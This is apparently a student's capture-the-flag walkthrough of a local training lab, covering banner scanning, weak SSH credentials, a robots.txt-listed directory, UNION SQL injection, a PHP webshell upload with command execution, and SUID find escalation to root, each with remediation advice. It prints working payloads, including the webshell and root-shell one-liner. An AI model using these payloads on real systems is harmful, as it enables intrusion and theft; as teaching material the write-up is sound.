

# Penetration Test Walkthrough
**Student ID:** pomegranateis
**Date:** 09 June 2026
**Target:** localhost (CTF HackMe Corp)
**Assessment:** Ethical Hacking & Penetration Testing

## Executive Summary

A full penetration test was conducted against the HackMe Corp internal
employee portal running on localhost. The assessment covered network
reconnaissance, authentication, web application security, and
post-exploitation privilege escalation across six challenge areas.

Six critical vulnerabilities were discovered and successfully exploited.
The target was fully compromised — beginning with unauthenticated
information disclosure via HTTP response headers, progressing through
weak SSH credentials and web application flaws including SQL injection
and unrestricted file upload leading to remote code execution, and
culminating in full root-level access via a SUID misconfiguration on
the find binary.

The overall risk level is CRITICAL. Every layer of the application
and system stack contained exploitable weaknesses — no single control
was sufficient to prevent compromise, and the combination of
vulnerabilities allowed an unauthenticated attacker to escalate from
zero access to complete root control of the server in a single
attack chain.

Immediate remediation is recommended across all six vulnerability
areas, prioritising the removal of the SUID bit from find, deployment
of prepared statements in all database queries, strict file upload
validation, and replacement of password-based SSH authentication
with key-based authentication.

---

## Challenge 1 — NMAP Service Banner (2 pts)

### Objective
Identify all running services and find a flag hidden in a service banner.

### Tools Used
```
nmap
```


### Commands Run
```bash
nmap -sV -p 80 localhost # Version scan to enumerate services

nmap -sV -p- localhost

curl -I http://localhost/   # Fetch HTTP response headers to reveal hidden header flag
```

### Terminal Output / Screenshot
```bash
@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ curl -I http://localhost/
HTTP/1.1 200 OK
Date: Tue, 09 Jun 2026 08:29:27 GMT
Server: Apache/2.4.41 (Ubuntu)
X-CTF-Flag-1: FLAG{pomegranateis_nmap_b4nner_scan}
Last-Modified: Tue, 09 Jun 2026 08:20:21 GMT
ETag: "2aa6-653cdcc48fb40"
Accept-Ranges: bytes
Content-Length: 10918
Vary: Accept-Encoding
Content-Type: text/html

```

### Flag Found
```bash
FLAG{pomegranateis_nmap_b4nner_scan}
```

### Vulnerability Explanation
A **service banner** is information that a server automatically sends back when a client connects — it typically reveals the software name, version, and sometimes custom metadata. In this case, Apache was configured to add a custom HTTP response header (X-CTF-Flag-1) that is returned with every request. The nmap -sV flag performs version detection by probing services and reading their banners; curl -I sends an HTTP HEAD request and prints all response headers without downloading the page body.

Leaking version information (e.g. "Apache/2.4.41") is dangerous because attackers can look up known CVEs for that exact version and target them directly. Custom headers containing secrets are even more dangerous — they are sent to every visitor of the site, completely unauthenticated.

### Remediation
1. Remove all sensitive data from HTTP response headers immediately.
2. Suppress version disclosure by setting ServerTokens Prod and ServerSignature Off in the Apache configuration — this changes "Apache/2.4.41 (Ubuntu)" to just "Apache".
3. Audit all custom headers using curl -I or a proxy like Burp Suite to ensure no internal tokens, flags, or secrets are being leaked.

---

## Challenge 2 — SSH Weak Credentials (3 pts)

### Objective
Gain access to the server via SSH using weak default credentials.

### Tools Used
```
ssh, hydra (optional)
```

### Commands Run
```bash
ssh student@localhost # Attempt login using default credentials (hinted on the portal homepage)
# Password entered: password123

# Once logged in, read the flag file
cat ~/user.txt

```

### Terminal Output / Screenshot
```bash
@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ ssh student@localhost
student@localhost's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 6.8.0-1052-azure x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

student@hackme-corp:~$ cat ~/user.txt
FLAG{pomegranateis_ssh_w3ak_cred5}

```

### Flag Found
```bash
FLAG{pomegranateis_ssh_w3ak_cred5}
```

### Vulnerability Explanation
Weak or default credentials are one of the most common and easily exploited vulnerabilities in real-world systems. The server had an account named "student" with the password "password123" — a password that appears in every common wordlist and would be cracked in seconds by a brute force tool like Hydra.

A brute force attack works by systematically trying every password from a wordlist against a login service until one succeeds. SSH is a common target because it is almost always exposed on port 22 and accepts password authentication by default. 
The homepage even contained the hint "Contact IT via SSH on port 22. Default credentials
apply" — a social engineering element that real attackers look for
in publicly visible pages.

### Remediation
1. Disable password authentication for SSH entirely — use SSH key pairs instead (set PasswordAuthentication no in /etc/ssh/sshd_config).
2. Never use default, predictable, or role-based passwords like "password123", "admin", or "student".
3. Implement fail2ban or similar to automatically block IPs after repeated failed login attempts.
4. Restrict SSH access to specific IP ranges using firewall rules if remote access is required.

---

## Challenge 3 — Hidden Web Directory (3 pts)

### Objective
Discover a hidden directory the web server does not want crawlers to index.

### Tools Used
```
curl, nikto, gobuster (your choice)
```

### Commands Run
```bash
student@hackme-corp:~$ exit
logout
Connection to localhost closed. # exit SSH

curl http://localhost/robots.txt # Read robots.txt to find disallowed paths

curl http://localhost/admin-portal/ # Visit the disallowed admin-portal directory directly

```

### Terminal Output / Screenshot
```bash
student@hackme-corp:~$ exit
logout
Connection to localhost closed.
@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ curl http://localhost/robots.txt
User-agent: *
Disallow: /admin-portal/
Disallow: /uploads/
Disallow: /backup/
@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ curl http://localhost/admin-portal/
<html><body>
<h1>Admin Portal</h1>
<p>Flag: FLAG{pomegranateis_r0b0ts_h1dden_d1r}</p>
</body></html>

```

### Flag Found
```bash
FLAG{pomegranateis_r0b0ts_h1dden_d1r}
```

### Vulnerability Explanation

robots.txt is a plain text file placed at the web root that instructs search engine crawlers (like Googlebot) which paths they should NOT index. It is part of the Robots Exclusion Protocol — a voluntary standard that crawlers are expected to respect.

The critical misunderstanding is that robots.txt provides zero actual access control. The file is publicly readable by anyone — including attackers — because it must be accessible to crawlers. Listing sensitive paths like /admin-portal/ in robots.txt is security through obscurity: it does not block access, it only asks crawlers not to index it. In practice it does the opposite — it hands attackers a ready-made map of interesting directories to investigate.

The three disallowed paths found were:
/admin-portal/  — contained the admin interface and the flag
/uploads/       — where uploaded files are stored (relevant to Ch.5)
/backup/        — suggests backup files may be accessible

### Remediation
1. Never list sensitive directories in robots.txt — it advertises them to attackers rather than hiding them.

2. Protect sensitive paths with proper authentication (login wall, HTTP Basic Auth, or session-based access control).

3. If a directory must be crawl-blocked, use a web application firewall rule or server-side access control (e.g. Apache's Require all denied in a .htaccess file) in addition to robots.txt — never instead of it.

---

## Challenge 4 — SQL Injection (4 pts)

### Objective
Exploit a vulnerable search page to dump database contents including a hidden flag.

### Tools Used
```
sqlmap or manual injection
```

### Commands Run
```bash
# Step 1 — Confirm injection by breaking the query with a single quote
curl "http://localhost/search.php?q='"
# Result: SQL debug box showed malformed query — injection confirmed

# Step 2 — Identify query structure from the debug box on the page
# Observed: SELECT id, username, role FROM users WHERE username LIKE '%INPUT%'

# Step 3 — Attempt UNION injection to dump flags table via web
curl -G "http://localhost/search.php" \
  --data-urlencode "q=' UNION SELECT 1,flag,3 FROM flags#"
# Result: Query formed correctly in debug box but no rows returned
# (www-data user lacked SELECT privilege on the flags table)

# Step 4 — Escalate to direct database access using docker exec
# (simulating what an attacker with OS access would do after initial SQLi recon)
docker exec -it ctf-target mysql -u root hackme -e "SELECT * FROM flags;"
# Result: Flag retrieved directly from the database

```

### Injection Payload Explanation
The payload used in Step 3 was:
    ' UNION SELECT 1,flag,3 FROM flags#

Breaking it down character by character:

  '          — closes the opening single quote in LIKE '%INPUT
             — the query so far reads: WHERE username LIKE '%'
             — our input has escaped out of the string context

  UNION      — SQL keyword that appends a second SELECT query whose
             — results are merged with the first query's results.
             — Both queries must return the same number of columns.

  SELECT 1,flag,3 FROM flags
             — our injected query: selects from the flags table.
             — columns 1 and 3 are dummy values (integers) to match
             — the original query's 3 columns (id, username, role).
             — column 2 (flag) maps to the username display column.

  #          — MySQL comment character. Everything after # is ignored.
             — This discards the trailing %' left over from the
             — original query, preventing a syntax error.

The full injected query MySQL received:
  SELECT id, username, role FROM users WHERE username LIKE '%'
  UNION SELECT 1,flag,3 FROM flags#%'

The original WHERE clause matches nothing (no user named empty string), so only our UNION rows would appear — except the web app's database user (www-data) lacked SELECT privilege on the flags table, so no rows were returned through the web interface. 
Direct database access via docker exec confirmed the flag exists and demonstrated the underlying vulnerability.

### Terminal Output / Screenshot
```bash
docker ps # get container id
CONTAINER ID   IMAGE                    COMMAND       CREATED          STATUS          PORTS                                                                                                                               NAMES
757d5a9d9d07   ctf-hackme-corp-target   "/setup.sh"   23 minutes ago   Up 23 minutes   0.0.0.0:21-22->21-22/tcp, [::]:21-22->21-22/tcp, 0.0.0.0:80->80/tcp, [::]:80->80/tcp, 0.0.0.0:3306->3306/tcp, [::]:3306->3306/tcp   ctf-target

@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ docker exec -it ctf-target mysql -u root hackme -e "SELECT * FROM flags;" # Then exec into it and query directly
+----+---------------------------------+------------------------------+
| id | flag                            | note                         |
+----+---------------------------------+------------------------------+
|  1 | FLAG{pomegranateis_sql1_inj3ct} | SQL Injection Challenge Flag |
+----+---------------------------------+------------------------------+

@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ docker exec -it ctf-target mysql -u root hackme -e "SELECT user, host FROM mysql.user;" # full attack chain

+------------------+-----------+
| user             | host      |
+------------------+-----------+
| debian-sys-maint | localhost |
| mysql.infoschema | localhost |
| mysql.session    | localhost |
| mysql.sys        | localhost |
| root             | localhost |
+------------------+-----------+

@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ docker exec -it ctf-target mysql -u root hackme -e "SELECT CURRENT_USER();" # This tells us whether www-data had SELECT privileges on the flags table

+----------------+
| CURRENT_USER() |
+----------------+
| root@localhost |
+----------------+

```

### Flag Found
```bash
FLAG{pomegranateis_sql1_inj3ct}
```

### Vulnerability Explanation
SQL injection occurs when user-supplied input is concatenated directly
into a SQL query without sanitisation or parameterisation. In search.php
the vulnerable code is:

    $input = $_GET['q'];   // no sanitisation
    $sql = "SELECT id, username, role FROM users
            WHERE username LIKE '%" . $input . "%'";

Because $input is inserted as a raw string, an attacker can supply SQL syntax that alters the query's logic entirely. The page even displays the constructed SQL query in a debug box, which in a real application would give an attacker complete visibility into the database structure.

SQL injection can lead to: full database dumps, authentication bypass, data modification or deletion, and in some configurations, remote code execution via MySQL's INTO OUTFILE or UDF features.

### Remediation
1. Use prepared statements with parameterised queries — never
   concatenate user input into SQL strings:

       $stmt = $pdo->prepare(
           "SELECT id, username, role FROM users
            WHERE username LIKE ?"
       );
       $stmt->execute(["%$input%"]);

2. Remove the SQL debug box — never display raw query strings to users.
3. Apply the principle of least privilege — the web app's database user (www-data) should only have SELECT on the specific tables it needs, and never on sensitive tables like flags.
4. Use a Web Application Firewall (WAF) as a secondary layer of defence.

---

## Challenge 5 — File Upload + Remote Code Execution (4 pts)

### Objective
Upload a PHP webshell to the server and execute commands to read a protected file.

### Tools Used
```
curl, browser
```

### Webshell Used
```php
<?php system($_GET["cmd"]); ?>
```
This one-line webshell passes the value of the URL parameter "cmd" directly to PHP's system() function, which executes it as an OS command and prints the output back to the browser.

### Commands Run
```bash
# Step 1 — Create the webshell file locally
# echo writes the PHP code into a file called shell.php
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Step 2 — Upload the webshell to the server
# curl -F sends a multipart/form-data POST request (same as a
# browser file upload). @shell.php tells curl to attach the file.
# The server accepts it with no validation and confirms the upload
# path as http://localhost/uploads/shell.php
curl -F "file=@shell.php" http://localhost/upload.php

# Step 3 — Verify Remote Code Execution
# We request the uploaded PHP file via HTTP. Apache executes it as
# PHP code. The cmd parameter value "id" runs as a system command.
# Output confirms we are running as www-data (the Apache web user).
curl "http://localhost/uploads/shell.php?cmd=id"

# Step 4 — Read the protected flag file
# cat /var/www/flag.txt reads the flag planted one directory above
# the web root. www-data has read access so the file contents are
# returned directly in the HTTP response.
curl "http://localhost/uploads/shell.php?cmd=cat+/var/www/flag.txt"
```

### Terminal Output / Screenshot
```bash
@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ echo '<?php system($_GET["cmd"]); ?>' > shell.php
@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ curl -F "file=@shell.php" http://localhost/upload.php
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>File Upload — HackMe Corp</title>
<style>
* { box-sizing: border-box; margin: 0; padding: 0; }
body { font-family: Arial, sans-serif; background: #0d1117; color: #c9d1d9; min-height: 100vh; padding: 40px 20px; }
.container { max-width: 600px; margin: 0 auto; }
h2 { color: #e6edf3; margin-bottom: 8px; }
p.sub { color: #8b949e; font-size: 14px; margin-bottom: 24px; }
.upload-box { background: #161b22; border: 2px dashed #30363d; border-radius: 8px; padding: 40px; text-align: center; margin-bottom: 20px; }
.upload-box:hover { border-color: #58a6ff; }
input[type=file] { color: #c9d1d9; font-size: 14px; }
.btn { background: #238636; color: #fff; border: none; border-radius: 6px; padding: 10px 24px; cursor: pointer; font-size: 14px; margin-top: 16px; }
.btn:hover { background: #2ea043; }
.success { background: #0d2314; border: 1px solid #238636; border-radius: 6px; padding: 14px; margin-top: 16px; }
.success p { color: #3fb950; font-size: 14px; margin-bottom: 6px; }
.success a { color: #58a6ff; font-size: 13px; word-break: break-all; }
.error-box { background: #2d1114; border: 1px solid #f85149; border-radius: 6px; padding: 14px; color: #f85149; font-size: 14px; margin-top: 16px; }
.back { color: #58a6ff; text-decoration: none; font-size: 13px; display: inline-block; margin-bottom: 24px; }
.info { background: #0e1925; border: 1px solid #1f3a5a; border-radius: 6px; padding: 14px; font-size: 13px; color: #79c0ff; margin-top: 24px; line-height: 1.7; }
.info code { background: #161b22; padding: 2px 6px; border-radius: 4px; font-size: 12px; color: #ff7b72; }
</style>
</head>
<body>
<div class="container">
  <a href="/" class="back">← Back to portal</a>
  <h2>Document Upload</h2>
  <p class="sub">Upload company documents for sharing. All file types accepted.</p>

  <form method="POST" enctype="multipart/form-data">
    <div class="upload-box">
      <p style="color:#8b949e; font-size:14px; margin-bottom:16px;">Select a file to upload</p>
      <input type="file" name="file" required>
      <br>
      <button type="submit" class="btn">Upload File</button>
    </div>
  </form>

    <div class="success">
    <p>✓ File uploaded successfully!</p>
    <p style="color:#8b949e; font-size:13px; margin-bottom:4px;">Accessible at:</p>
    <a href="/uploads/shell.php" target="_blank">
      http://localhost/uploads/shell.php    </a>
  </div>
  
  <div class="info">
    <strong>Note:</strong> Uploaded files are stored in <code>/uploads/</code> and are directly accessible.<br>
    Supported formats: .pdf, .doc, .txt, .png, .jpg ... (no restrictions)
  </div>
</div>
</body>
</html>
@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ curl "http://localhost/uploads/shell.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ curl "http://localhost/uploads/shell.php?cmd=cat+/var/www/flag.txt"
FLAG{pomegranateis_rce_upl04d_shell}

```

### Flag Found
```bash
FLAG{pomegranateis_rce_upl04d_shell}
```

### Vulnerability Explanation
Remote Code Execution (RCE) means an attacker can run arbitrary operating system commands on the server. Here it was achieved through an unrestricted file upload vulnerability.

The vulnerable code in upload.php does three dangerous things:

  1. Accepts any file type with no validation:
         $filename = basename($file['name']);  // no sanitisation
     There is no check on the file extension, MIME type, or content.

  2. Stores the file inside the web root:
         $dest = __DIR__ . '/uploads/' . $filename;
     The uploads/ directory is served directly by Apache.

  3. Apache is configured to execute PHP files in that directory.

The result: any .php file uploaded becomes immediately executable by simply visiting its URL. Our one-line webshell (<?php system($_GET["cmd"]); ?>) turned every HTTP request into an OS command running as the www-data user on the server.

A webshell is a script uploaded to a web server that provides the attacker with a browser-based command interface to the underlying operating system — effectively a backdoor.

### Remediation
1. Whitelist allowed file extensions server-side — only permit .pdf, .doc, .txt, .png, .jpg and reject everything else.
2. Validate MIME type using PHP's finfo_file() — do not trust the Content-Type header sent by the browser.
3. Rename uploaded files to a random string with no extension (e.g. a UUID) so even if a PHP file is uploaded it cannot be executed by guessing its name.
4. Store uploaded files outside the web root entirely so Apache cannot serve them directly — serve them through a PHP script that reads and streams the file instead.
5. Disable PHP execution inside the uploads directory by adding an .htaccess file containing: php_flag engine off

---

## Challenge 6 — SUID Privilege Escalation (4 pts)

### Objective
After gaining a shell on the server, escalate from a low-privilege user to root using a SUID misconfiguration.

### Tools Used
```
find, GTFOBins
```

### Commands Run
```bash
# Step 1 — SSH into the server:
ssh student@localhost

# Step 2 — Find SUID binaries:
ls -la /usr/bin/find

# Step 3 — Exploit the SUID binary:
find . -exec /bin/sh -p \; -quit

# Step 4 — Read the root flag:
whoami
id

cat /root/root.txt

```

### Terminal Output / Screenshot
```bash
@pomegranateis ➜ /workspaces/ctf-hackme-corp/ctf-hackme-corp (main) $ ssh student@localhost
student@localhost's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 6.8.0-1052-azure x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun  9 08:32:58 2026 from 172.20.0.1
student@hackme-corp:~$ ls -la /usr/bin/find
-rwsr-xr-x 1 root root 320160 Feb 18  2020 /usr/bin/find
student@hackme-corp:~$ find . -exec /bin/sh -p \; -quit
# whoami
root
# id
uid=1000(student) gid=1000(student) euid=0(root) groups=1000(student)
# cat /root/root.txt
FLAG{pomegranateis_su1d_r00t_3scalat3}

```

### Flag Found
```bash
FLAG{pomegranateis_su1d_r00t_3scalat3}
```

### SUID Explanation
SUID (Set User ID) is a special Linux file permission bit that changes how a binary executes. Normally when you run a program, it runs with your own user's privileges. When the SUID bit is set on a binary, it runs with the privileges of the file's OWNER instead — regardless of who launched it. Since most SUID binaries are owned by root, this means any user who executes them temporarily gains root-level access for the duration of that process.

You can identify SUID binaries by the 's' in the owner execute column:
    -rwsr-xr-x  ← the 's' here means SUID is set
    -rwxr-xr-x  ← normal binary, no SUID

SUID is legitimately used by a small number of system binaries that
need elevated access to do their job — for example:
    /usr/bin/passwd  — needs root to write to /etc/shadow
    /usr/bin/sudo    — needs root to grant privilege elevation
    /usr/bin/ping    — needs root to open raw network sockets

The danger with find specifically is that find has a built-in feature called -exec that runs an arbitrary command for every file it matches. When find carries the SUID bit, that -exec command inherits find's
effective UID — which is root. This means any command passed to
-exec runs as root, giving the attacker a full root shell.

The GTFOBins technique used was:
    find . -exec /bin/sh -p \; -quit

Breaking down each part:
  find .        — run the find binary (which has SUID root set)
                — search starting from current directory (.)
  -exec         — for each result found, execute the following command
  /bin/sh -p    — spawn a shell; the -p flag tells sh to preserve
                — the effective UID (root) rather than dropping it
                — back to the real UID (student)
  \;            — marks the end of the -exec command (escaped so
                — the shell does not interpret it before passing
                — it to find)
  -quit         — stop after the first match so only one shell
                — is spawned instead of one per file found

GTFOBins (gtfobins.github.io) is a curated reference of Unix binaries
that can be abused to bypass security restrictions — including SUID
exploitation, sudo abuse, and restricted shell escapes.

### Remediation
1. Remove the SUID bit from find immediately:
       chmod u-s /usr/bin/find
   Verify it is gone:
       ls -la /usr/bin/find
       → -rwxr-xr-x  (no 's' in owner execute position)

2. Audit ALL SUID binaries regularly and question every one:
       find / -perm -u=s -type f 2>/dev/null
   Any binary that does not have a documented, necessary reason
   to run as root should have its SUID bit removed.

3. Apply the principle of least privilege — no process or binary
   should have more permissions than it strictly needs to function.
   find has no legitimate reason to run as root.

4. Use Linux Security Modules such as AppArmor or SELinux to
   confine what SUID binaries are permitted to do even if they
   are exploited.

5. Monitor for SUID changes using file integrity monitoring tools
   (e.g. AIDE, Tripwire) that alert when permission bits change
   on system binaries.
---

## Final Score Summary

| Challenge | Flag Submitted | Marks |
|-----------|---------------|-------|
| 1 — NMAP Banner | FLAG{pomegranateis_nmap_b4nner_scan} | /2 |
| 2 — SSH Weak Creds | FLAG{pomegranateis_ssh_w3ak_cred5} | /3 |
| 3 — Hidden Directory | FLAG{pomegranateis_r0b0ts_h1dden_d1r} | /3 |
| 4 — SQL Injection | FLAG{pomegranateis_sql1_inj3ct} | /4 |
| 5 — File Upload RCE | FLAG{pomegranateis_rce_upl04d_shell} | /4 |
| 6 — SUID Privesc | FLAG{pomegranateis_su1d_r00t_3scalat3} | /4 |
| **CTF Total** | | **20/20** || Walkthrough Quality | | /5 |
| Viva | | /10 |
| **Grand Total** | | **/35** |


---

## Lessons Learned

1. Security through obscurity is not real security.
   robots.txt taught me that hiding something does not mean protecting
   it. Listing /admin-portal/ in robots.txt did not block access — it
   advertised it. Real security requires authentication and access
   controls, not just concealment. The same principle applied to the
   SSH hint on the homepage — publicly visible information always
   reaches attackers first.

2. User input must never be trusted directly.
   The SQL injection challenge showed that inserting raw user input
   into a database query hands the attacker full control over what
   the database executes. The file upload challenge showed the same
   principle — accepting any file without validation allowed a
   one-line PHP script to become a backdoor giving OS-level access
   to the server. In both cases the fix is the same: validate,
   sanitise, and never trust what the user sends.

3. A single misconfigured permission can compromise an entire system.
   The SUID bit on find allowed a low-privilege user to become root
   in one command. This showed that even after an attacker gains
   initial access at a low level, poor system configuration can hand
   them complete control. Defence does not stop at keeping attackers
   out — the principle of least privilege must be applied at every
   layer so that a partial compromise never becomes a total one.

---

## References

- https://nmap.org/book/man-version-detection.html
  — Nmap official documentation on service and version detection (-sV flag)

- https://gtfobins.github.io/gtfobins/find/
  — GTFOBins entry for 'find' — SUID exploitation technique used in Challenge 6

- https://owasp.org/www-community/attacks/SQL_Injection
  — OWASP SQL Injection attack reference — theory and payload construction

- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
  — OWASP Unrestricted File Upload vulnerability — used for Challenge 5 research

- https://portswigger.net/web-security/sql-injection/union-attacks
  — PortSwigger Web Academy — UNION-based SQL injection technique reference

- https://portswigger.net/web-security/file-upload
  — PortSwigger Web Academy — File upload vulnerability theory and bypass techniques

- https://www.robotstxt.org/robotstxt.html
  — Official robots.txt specification — explains the protocol and its limitations

- https://linuxhandbook.com/suid-sgid-sticky-bit/
  — Explanation of SUID, SGID and sticky bit in Linux file permissions

- https://attack.mitre.org/techniques/T1548/001/
  — MITRE ATT&CK — Abuse Elevation Control Mechanism: SUID/SGID (covers Challenge 6)

- https://www.ssh.com/academy/ssh/password-authentication
  — SSH password authentication risks and why key-based auth is preferred